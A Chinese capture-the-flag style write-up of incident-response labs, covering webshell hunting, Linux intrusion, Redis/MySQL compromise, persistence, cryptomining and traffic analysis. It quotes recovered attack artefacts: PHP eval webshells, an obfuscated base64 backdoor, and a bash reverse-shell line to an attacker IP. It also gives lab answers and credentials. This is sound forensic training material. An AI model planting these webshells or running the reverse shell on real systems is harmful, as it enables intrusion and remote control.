


# 玄机应急响应平台部分 wp - 先知社区

玄机应急响应平台部分 wp

- - -

# 玄机应急响应平台 wp

## 第一章 应急响应-webshell 查杀

```plain
靶机账号密码 root xjwebshell
1.黑客 webshell 里面的 flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
2.黑客使用的什么工具的 shell github 地址的 md5 flag{md5}
3.黑客隐藏 shell 的完整路径的 md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
4.黑客免杀马完整路径 md5 flag{md5}
```

```plain
黑客 webshell 里面的 flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}  --  火绒检测  /var/www/html/include/gz.php  
2.黑客使用的什么工具的 shell github 地址的 md5 flag{md5} -- 搜索一下 gz.php 的木马语句，匹配哥斯拉木马  md5('https://github.com/BeichenDream/Godzilla')
3.黑客隐藏 shell 的完整路径的 md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx  -- 火绒检测   md5('/var/www/html/include/Db/.Mysqli.php')
4.黑客免杀马完整路径 md5 flag{md5} -- 火绒检测   md5('/var/www/html/wap/top.php')
```

## 第一章 应急响应 - Linux 入侵排查

```plain
账号：root 密码：linuxruqin
ssh root@IP
1.web 目录存在木马，请找到木马的密码提交
2.服务器疑似存在不死马，请找到不死马的密码提交
3.不死马是通过哪个文件生成的，请提交文件名
4.黑客留下了木马文件，请找出黑客的服务器 ip 提交
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交
```

```plain
1.web 目录存在木马，请找到木马的密码提交 1.php
2.服务器疑似存在不死马，请找到不死马的密码提交  
3.不死马是通过哪个文件生成的，请提交文件名
4.黑客留下了木马文件，请找出黑客的服务器 ip 提交
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交
```

2.服务器疑似存在不死马，请找到不死马的密码提交

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002633-fb626f7a-cc1e-1.png)

```plain
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

md5 解一下是 hello

3.不死马是通过哪个文件生成的，请提交文件名

接上面 d 盾扫出来的图

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002638-fe75a52e-cc1e-1.png)

flag{index.php}

4.黑客留下了木马文件，请找出黑客的服务器 ip 提交  
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交

www 目录下存在 shell.elf

```plain
chmod 777 shell.elf 
./shell.elf
netstat -antlp|more
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002644-022fa5f2-cc1f-1.png)

## 第二章日志分析-mysql 应急响应

```plain
mysql 应急响应 ssh 账号 root  密码 xjmysql
ssh env.xj.edisec.net  -p xxxxx
1.黑客第一次写入的 shell flag{关键字符串} 
2.黑客反弹 shell 的 ip flag{ip}
3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx
4.黑客获取的权限 flag{whoami 后的值}
```

```plain
1.黑客第一次写入的 shell flag{关键字符串}  sh.php
2.黑客反弹 shell 的 ip flag{ip} 192.168.100.13 error,log
3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx 
4.黑客获取的权限 flag{whoami 后的值}
```

**1.黑客第一次写入的 shell flag{关键字符串}**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002650-05cefa46-cc1f-1.png)

d 盾扫出来

**2.黑客反弹 shell 的 ip flag{ip}**

在 error,log 找到用户操作了 1.sh

1.sh 中写了反弹 shell

**3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx**

猜测就 udf 提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002656-093f258e-cc1f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002701-0c1e9640-cc1f-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002705-0ec473a6-cc1f-1.png)

**4.黑客获取的权限 flag{whoami 后的值}**

udf 提权 whoami 返回的是 mysql、

## 第二章日志分析-redis 应急响应

```plain
ssh 账号 root 密码 xjredis
1，黑客攻击成功的 ip flag{127.0.0.1}
2，黑客第一次上传的恶意文件  flag{xxxxxxxx}
3，黑客反弹 shell 的 ip flag{ip}
4，黑客的用户名和溯源分析后的 flag flag 格式 flag{黑客的用户 - 关键字符串} 注关键字符串 xxx-xxx-xxx-flag
5，黑客篡改的命令 flag 格式为：flag{一个 md5 字符串}
```

**1，黑客攻击成功的 ip flag{127.0.0.1}**

```plain
root@ip-10-0-10-1:~# find / -name "redis.log"
/var/log/redis.log
```

```plain
192.168.100.13
192.168.100.20
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002714-13eecd40-cc1f-1.png)

192.168.100.13 出现次数较多明显是爆破

192.168.100.20 是主从复制

**2，黑客第一次上传的恶意文件 flag{xxxxxxxx}**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002720-174b0508-cc1f-1.png)

这里从 exp.so 加载了 system 模块 exp.so 无疑就上传的了

寻找 exp.so（根目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002724-19c013aa-cc1f-1.png)

**3，黑客反弹 shell 的 ip flag{ip}**

看一下定时任务

```plain
crontab -l
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002729-1c9e59f6-cc1f-1.png)

**4，黑客的用户名和溯源分析后的 flag flag 格式 flag{黑客的用户 - 关键字符串} 注关键字符串 xxx-xxx-xxx-flag**

看.ssh 下的 authorized\_keys

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002733-1f68b80c-cc1f-1.png)

xj-test-user

找一下该用户的 github 看一下历史版本[tye · xj-test-user/redis-rogue-getshell@76b1b74 (github.com)](https://github.com/xj-test-user/redis-rogue-getshell/commit/76b1b74b92f9cc6ef2a62985debdf09dcc056636)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002741-23cfe8ac-cc1f-1.png)

```plain
flag{xj-test-user-wow-you-find-flag}
```

**5，黑客篡改的命令 flag 格式为：flag{一个 md5 字符串}**

```plain
cd /usr/bin
ls -al
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002746-2740be44-cc1f-1.png)

```plain
cat ps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002751-29f11468-cc1f-1.png)

## **第三章 权限维持-linux 权限维持 - 隐藏**

```plain
ssh root@env.xj.edisec.net -p  密码  xjqxwcyc
1.黑客隐藏的隐藏的文件 完整路径 md5
2.黑客隐藏的文件反弹 shell 的 ip+ 端口 {ip:port}
3.黑客提权所用的命令 完整路径的 md5 flag{md5} 
4.黑客尝试注入恶意代码的工具完整路径 md5
5.使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为 flag 提交 flag{/xxx/xxx/xxx}
```

**1.黑客隐藏的隐藏的文件 完整路径 md5**

[应急响应之 Linux 下进程隐藏 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/network/258510.html)在/tmp/.temp/文件夹下发现 libprocesshider

libprocesshider 是用于隐藏文件的项目

```plain
/tmp/.temp/libprocesshider/processhider.c
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002757-2d940382-cc1f-1.png)

隐藏了 1.py

```plain
/tmp/.temp/libprocesshider/1.py
```

**2.黑客隐藏的文件反弹 shell 的 ip+ 端口 {ip:port}**

1.py

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002802-30ae27e6-cc1f-1.png)

**3.黑客提权所用的命令 完整路径的 md5 flag{md5}**

```plain
find / -perm -u=s -type f 2>/dev/null
```

自己尝试提权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002807-33c422a0-cc1f-1.png)

发现可以 find 提权

```plain
/usr/bin/find
```

**4.黑客尝试注入恶意代码的工具完整路径 md5**

我们不难发现这个靶机是和 mysql 的那个靶机是差不多一样的

发现 opt 的目录下多出来的东西

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002813-374f97b0-cc1f-1.png)

cymothoa 是后门工具

```plain
/opt/.cymothoa-1-beta/cymothoa
```

**5.使用命令运行 ./x.xx 执行该文件 将查询的 Exec** 值 作为 flag 提交 flag{/xxx/xxx/xxx}

```plain
root@xuanji:/opt/.cymothoa-1-beta# ls /usr/bin/python3 -al
lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4
root@xuanji:/opt/.cymothoa-1-beta# which  python3.4
/usr/bin/python3.
```

```plain
/usr/bin/python3
```

## 第五章 linux 实战 - 挖矿

```plain
应急响应工程师在内网服务器发现有台主机 cpu 占用过高，猜测可能是中了挖矿病毒，请溯源分析，提交对应的报告给应急小组
虚拟机账号密码 root websecyjxy web 端口为 8081
1、黑客的 IP 是？flag 格式：flag{黑客的 ip 地址}，如：flag{127.0.0.1}
2、黑客攻陷网站的具体时间是？flag 格式：flag{年 - 月 - 日 时：分：秒}，如：flag{2023-12-24 22:23:24}
3、黑客上传 webshell 的名称及密码是？flag 格式：flag{黑客上传的 webshell 名称-webshell 密码}，如：flag{webshell.php-pass}
4、黑客提权后设置的后门文件名称是？flag 格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}
5、对黑客上传的挖矿病毒进行分析，获取隐藏的 Flag
```

**1、黑客的 IP 是？flag 格式：flag{黑客的 ip 地址}，如：flag{127.0.0.1}**

大致翻找一下发下网站时基于 nginx 的

看 nginx 的日志`/www/admin/websec_80/log`

```plain
192.168.10.135
```

**2、黑客攻陷网站的具体时间是？flag 格式：flag{年 - 月 - 日 时：分：秒}，如：flag{2023-12-24 22:23:24}**

访问网站发现时之梦，根据日志知道了之梦的后台登录网站`/dede`

用户名 admin 我们自己拿弱密码字典爆破一下（相当于自己打一遍靶机）

爆破出密码时 12345678

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002821-3c19f862-cc1f-1.png)

登录后台发现攻击者自己创造的账户，他的登录时间也就可以理解成攻陷的时间

**3、黑客上传 webshell 的名称及密码是？flag 格式：flag{黑客上传的 webshell 名称-webshell 密码}，如：flag{webshell.php-pass}**

d 盾扫描网站的工作目录

\\wwwroot\\error\\404.php 存在后门

```plain
eval(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));
```

本地 run 一下

```plain
string(20) "eval($_POST['cmd']);"
```

**4、黑客提权后设置的后门文件名称是？flag 格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}**

提权后就是 root 直接看 root 的历史执行命令

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002827-3f77c64c-cc1f-1.png)

find 被赋予了 suid 权限，攻击者可以利用 suid 提权做后门 find 文件被做了后门

**5、对黑客上传的挖矿病毒进行分析，获取隐藏的 Flag**

找挖矿程序就要找计划任务但是 crontab 指令用不了

看/etc/crontab

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002833-42be62fc-cc1f-1.png)

下载了一个 ldm 估计就是挖矿程序了

```plain
[root@ip-10-0-10-1 ~]# find / -name "ldm"
/etc/.cache/ldm
```

在 line 691 发现一段 python 代码

```plain
"import base64;exec(base64.b64decode('aW1wb3J0IHRpbWUKd2hpbGUgMToKICAgIHByaW50KCJmbGFne3dlYnNlY19UcnVlQDg4OCF9IikKICAgIHRpbWUuc2xlZXAoMTAwMCk='))"
```

base64 解一下

```plain
import time
while 1:
    print("flag{websec_True@888!}")
    time.sleep(1000)
```

## **第六章 流量特征分析 - 蚁剑流量分析**

```plain
1.木马的连接密码是多少
2.黑客执行的第一个命令是什么
3.黑客读取了哪个文件的内容，提交文件绝对路径
4.黑客上传了什么文件到服务器，提交文件名
5.黑客上传的文件内容是什么
6.黑客下载了哪个文件，提交文件绝对路径
```

**1.木马的连接密码是多少**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002840-46ff4b10-cc1f-1.png)

**2.黑客执行的第一个命令是什么**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002847-4b21a67a-cc1f-1.png)

base64 删除两位

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002851-4db693be-cc1f-1.png)

**3.黑客读取了哪个文件的内容，提交文件绝对路径**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002855-4ff0b36c-cc1f-1.png)

明显是/etc/passwd

**4.黑客上传了什么文件到服务器，提交文件名**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002900-530ca2f4-cc1f-1.png)

**5.黑客上传的文件内容是什么**

该流下面的 16 进制

**6.黑客下载了哪个文件，提交文件绝对路径**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002904-55c139f6-cc1f-1.png)

## 第六章 流量特征分析 - 常见攻击事件 tomcat

```plain
1、在 web 服务器上发现的可疑活动，流量分析会显示很多请求，这表明存在恶意的扫描行为，通过分析扫描的行为后提交攻击者 IP  flag 格式：flag{ip}，如：flag{127.0.0.1}
2、找到攻击者 IP 后请通过技术手段确定其所在地址 flag 格式：flag{城市英文小写}
3、哪一个端口提供对 web 服务器管理面板的访问？flag 格式：flag{2222}
4、经过前面对攻击者行为的分析后，攻击者运用的工具是？flag 格式：flag{名称}
5、攻击者拿到特定目录的线索后，想要通过暴力破解的方式登录，请通过分析流量找到攻击者登录成功的用户名和密码？flag 格式：flag{root-123}
6、攻击者登录成功后，先要建立反弹 shell，请分析流量提交恶意文件的名称？flag 格式：flag{114514.txt}
7、攻击者想要维持提权成功后的登录，请分析流量后提交关键的信息？flag 提示，某种任务里的信息
```

**1、在 web 服务器上发现的可疑活动，流量分析会显示很多请求，这表明存在恶意的扫描行为，通过分析扫描的行为后提交攻击者 IP flag 格式：flag{ip}，如：flag{127.0.0.1}**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002910-58f7decc-cc1f-1.png)

我们看到有许多的 SYN 包，很明显是 nmap 的扫描行为

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002914-5b7bb182-cc1f-1.png)

**2、找到攻击者 IP 后请通过技术手段确定其所在地址 flag 格式：flag{城市英文小写}**

14.0.0.120

ip 反查出来时广州

**3、哪一个端口提供对 web 服务器管理面板的访问？flag 格式：flag{2222}**

看 http 协议发现有个访问路径是/admin

[](https://xzfile.aliyuncs.com/media/upload/picture/20240216002938-69934ad2-cc1f-1.png)

**4、经过前面对攻击者行为的分析后，攻击者运用的工具是？flag 格式：flag{名称}**

接上图的 UA

```plain
gobuster
```

**5、攻击者拿到特定目录的线索后，想要通过暴力破解的方式登录，请通过分析流量找到攻击者登录成功的用户名和密码？flag 格式：flag{root-123}**

没有认证或认证不成功会返回 401，认证标识 Authorization: Basic

```plain
http contains "Authorization: Basic"
```

一个一个包找，知道返回包是 200 的时候才是认证成功的

```plain
YWRtaW46dG9tY2F0
admin:tomcat
```

**6、攻击者登录成功后，先要建立反弹 shell，请分析流量提交恶意文件的名称？flag 格式：flag{114514.txt}**

上传就是 POST 设置过滤器

```plain
http.request.method==POST
```

就一个流，跟进去就可以看到

JXQOZY.war

**7、攻击者想要维持提权成功后的登录，请分析流量后提交关键的信息？flag 提示，某种任务里的信息**

```plain
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

传完
